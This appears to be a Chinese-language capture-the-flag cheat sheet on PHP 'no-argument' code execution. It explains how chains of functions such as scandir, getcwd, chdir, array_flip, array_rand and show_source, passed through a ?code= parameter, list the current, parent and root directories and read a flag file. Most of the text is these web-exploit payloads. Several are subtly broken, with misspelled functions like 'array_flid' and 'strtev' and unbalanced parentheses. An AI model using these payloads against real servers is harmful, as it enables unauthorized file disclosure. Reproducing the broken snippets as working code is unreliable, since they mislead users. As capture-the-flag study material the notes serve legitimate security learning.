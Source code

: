 ## scandir读取

print_r()打印

**show_source函数是highlight_file()函数的别名）此函数是对文件进行 PHP 语法高亮显示**

scandir()--列出指定路径下的所有文件
getcwd()--返回当前工作目录
current()--返回数组的第一个元素
array_reversre()--将数组的最后一个变为第一个，第一个变为最后一个，其他以此类推
array_flip()--交换数组的键和值
next()--返回数组的第二个元素
array_rand()--随机返回一个键值

<font color=red>**chdir()--将执行指令的权限转移到当前目录**
**例：当前目录是wwwroot目录**
**dirname(getcwd())是上级目录，但是页面任然在wwwroot页面，要读取上级目录下的文件就需要chdir，chdir(dirname(getcwd()))**
**用于读取任意目录下的文件**</font>
strtev()--字符串反转
crypt()--加密
hebrevc()

**当前目录**：

```
?code=print_r(localeconv()); //查看当前目录文件名
?code=print_r(current(localeconv())); //返回第一个，内容是‘.’
?code=print_r(scandir(current(localeconv()))); //查看当前目录下的文件
如果是在最前面就使用pos读取，或者current
如果是最后一个使用end读取，或者array_reverse()反转之后使用current读取
然后使用show_source()读取
```

```
?code=print_r(getcwd()); //查看当前路径
?code=print_r(scandir(getcwd())); //查看当前路径下的文件
然后读取操作如上
```

```
?code=print_r(getcwd(); //查看当前路径
?code=print_r(dirname(getcwd())); //查看当前路径的上一级路径
?code=print_r(dirname(chdir(dirname(getcwd()))); //将操作权限切换到上级目录
?code=print_r(scandir(dirname(chdir(dirname(getcwd())))); //读取上级目录下的文件
因为flag可能不是第一个或者最后一个，不能使用ord和pos，可以使用array_flip()交换数组的键和值，再使用array_rand()随机返回一个键值，再用show_source()读取
?code=print_r(array_rand(array_flid(scandir(dirname(chdir(dirname(getcwd())))))));
```

**根目录：**

```
?code=print_r(crypt(serialize(array()); //对这段字符串进行加密，最后一个字符可能会出现'/'
然后反转
?code=print_r(strrev(crypt(serialize(array()))));
```

<font color=red>ord()将第一个字符转为ascii码</font>
